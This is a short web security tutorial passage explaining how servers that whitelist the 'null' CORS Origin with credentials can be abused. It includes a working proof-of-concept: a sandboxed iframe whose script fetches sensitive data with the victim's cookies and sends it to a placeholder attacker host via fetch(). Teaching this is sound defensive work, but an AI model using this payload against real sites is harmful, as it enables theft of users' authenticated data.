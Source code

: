 The `Origin` HTTP header also supports the `null` value. Browsers might send such value in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` Origin to support local development. For example:
```http
GET /sensitiveData
Host: vulnerable-website.com
Origin: null
...
```
And the server will send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
...
```
In this situation, an attacker can use various tricks to generate a CORS request containing the `null` value in `Origin` header which will satisfy the whitelist. For example, an attacker can use a sandboxed `iframe` CORS request:
```html
<iframe
	sandbox="allow-scripts allow-top-navigation allow-forms"
	src="data:text/html,
		<script>
		var xhr = new XMLHttpRequest();
		var url = "https://vulnerable-website.com"
		
		xhr.onreadystatechange = function () {
			if (xhr.readyState == XMLHttpRequest.DONE) {
				fetch("https://attacker-owned-website.com/log?key=" + xhr.responseText)
			}
		}
		xhr.open("GET", url + "/sensitiveData", true);
		xhr.withCredentials = true;
		xhr.send(null)
		</script>
	 ">
</iframe>
```